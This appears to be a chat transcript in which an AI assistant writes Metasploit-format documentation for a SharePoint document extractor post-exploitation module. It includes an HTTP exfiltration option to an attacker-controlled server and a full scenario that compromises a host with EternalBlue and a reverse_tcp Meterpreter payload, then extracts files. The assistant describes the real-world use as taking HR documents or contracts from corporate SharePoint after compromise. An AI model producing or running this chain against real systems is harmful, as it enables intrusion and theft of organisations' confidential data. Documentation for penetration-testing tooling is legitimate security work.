 Like I said, it needs to be in one block with the MD annotations so I can copy paste


My apologies for the repeated oversight. Here is the corrected documentation for your sharepoint_document_extractor.rb module in a single continuous Markdown code block, with <!-- --> comments defining the sections as per the Metasploit recommended format. This is ready for you to copy and paste directly.

markdown

Collapse

Wrap

Copy
# SharePoint Document Library Enumerator and Extractor

This document provides detailed instructions for setting up, verifying, and using the `post/windows/gather/sharepoint_document_extractor` module in Metasploit. It’s designed to help someone troubleshoot the module if it stops functioning in 5+ years (from March 17, 2025), with specific links and examples for clarity.

<!-- ## Vulnerable Application -->

This module targets Microsoft SharePoint Server installations on Windows systems. It requires a compromised Windows session (e.g., via Meterpreter) with access to SharePoint’s .NET assemblies (`Microsoft.SharePoint.dll`), which are included in a standard SharePoint installation.

### Setup Instructions
- **Supported Versions:** Tested on SharePoint Server 2016 and 2019. Future versions (e.g., SharePoint Server Subscription Edition) should work if the .NET API remains compatible.
- **Operating System:** Windows Server (e.g., 2016, 2019, 2022).
- **Installation:**
  1. **Obtain SharePoint Server:**
     - As of 2025, trials are available from Microsoft’s Evaluation Center (https://www.microsoft.com/en-us/evalcenter/). If links break, check the Wayback Machine (https://archive.org).
     - Example: SharePoint Server 2016 trial ISO (SHA256: check Microsoft archives if available).
  2. **Install on a Windows Server VM:**
     - Use VirtualBox or VMware with 8GB RAM and 100GB disk recommended.
     - Follow Microsoft’s setup guide: https://learn.microsoft.com/en-us/sharepoint/install/install-sharepoint-server (or archived versions if unavailable).
     - Default installation includes required .NET assemblies; no special configuration beyond site setup is needed.
  3. **Configure a SharePoint Site:**
     - Create a site (e.g., `http://<server_ip>`) via SharePoint Central Administration.
     - Add a document library named “Documents” (default) and upload test files (e.g., `test.pdf`, `doc1.docx`, each <10MB).
- **Dependencies:** Requires .NET Framework 4.5+ and SharePoint assemblies (`Microsoft.SharePoint.dll`), standard with SharePoint installs.

<!-- ## Verification Steps -->

1. **Install SharePoint:**
   - Set up SharePoint Server on a Windows VM as described above.
   - Upload test files (e.g., `test.pdf`, `doc1.docx`) to the “Documents” library.
2. **Start `msfconsole`:**
   
   msfconsole
Load the Module:

use post/windows/gather/sharepoint_document_extractor
Set Options:

set SESSION <session_id>  # Replace with your session ID from 'sessions -l'
set SITE_URL http://<target_ip>
set LIBRARY Documents
Run the Module:

run
Expected Result: Files are extracted to loot (Meterpreter) or sent via HTTP:

[*] Generating SharePoint document extractor payload...
[*] Executing payload on target session 1...
[*] Info: Enumerating:Documents:2 items
[+] Saved test.pdf to /root/.msf4/loot/20250317_123456_test.pdf
[+] Saved doc1.docx to /root/.msf4/loot/20250317_123457_doc1.docx
[*] Post module execution completed
<!-- ## Options -->
SITE_URL
Description: The full URL of the SharePoint site to target (e.g., http://192.168.1.100).
Usage: Must match the target’s SharePoint site exactly, including port if non-standard (e.g., http://192.168.1.100:8080). Use http:// (not https://) unless SSL is configured and accessible from the compromised session.
Default: http://sharepoint.local (update based on your test environment).
LIBRARY
Description: The name of the SharePoint document library to extract files from (e.g., Documents).
Usage: Must match an existing library on the target site. Case-sensitive in some SharePoint versions—verify via the SharePoint web interface.
Default: Documents (common default library name).
EXFIL_METHOD
Description: Specifies the method to exfiltrate files: METERPRETER (stores files as loot) or HTTP (sends files to an attacker-controlled server).
Usage: Set to METERPRETER for local loot storage or HTTP with EXFIL_HOST and EXFIL_PORT for remote transfer.
Default: METERPRETER.
EXFIL_HOST
Description: The IP or hostname of the attacker’s server for HTTP exfiltration (e.g., 192.168.1.101).
Usage: Required if EXFIL_METHOD is HTTP. Must be reachable from the target (e.g., run python3 -m http.server 8080 on Kali).
Default: Empty (not set).
EXFIL_PORT
Description: The port on the EXFIL_HOST for HTTP exfiltration (e.g., 8080).
Usage: Match the port of your HTTP server. Ensure no firewall blocks it on the target network.
Default: 8080.
MAX_SIZE
Description: Maximum file size (in bytes) to exfiltrate (e.g., 10485760 = 10MB).
Usage: Adjust to filter larger files; files exceeding this are skipped with a “SKIP:SizeExceeded” message.
Default: 10485760 (10MB).
<!-- ## Scenarios -->
SharePoint 2016 on Windows Server 2016 with Meterpreter Exfiltration
This scenario simulates extracting sensitive documents from a SharePoint server in a corporate network after gaining a Meterpreter session.

Steps:
Compromise the Target:
Use an exploit to gain a Meterpreter session:

msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.101
set LPORT 4444
exploit
Confirm session: sessions -l (e.g., ID 1).
Load and Configure the Module:

use post/windows/gather/sharepoint_document_extractor
set SESSION 1
set SITE_URL http://192.168.1.100
set LIBRARY Documents
Run the Module:

run

Output:

[*] Generating SharePoint document extractor payload...
[*] Executing payload on target session 1...
[*] Info: Enumerating:Documents:3 items
[+] Saved report.pdf to /root/.msf4/loot/20250317_123456_report.pdf
[+] Saved memo.docx to /root/.msf4/loot/20250317_123457_memo.docx
[*] Post module execution completed
Notes:
Troubleshooting: If files don’t extract, verify SITE_URL is reachable from the target (execute -H -i -f cmd.exe then ping 192.168.1.100). Check Microsoft.SharePoint.dll in C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions\<version>\ISAPI\.
Real-World Use: Extracting HR documents or contracts from a corporate SharePoint instance post-compromise.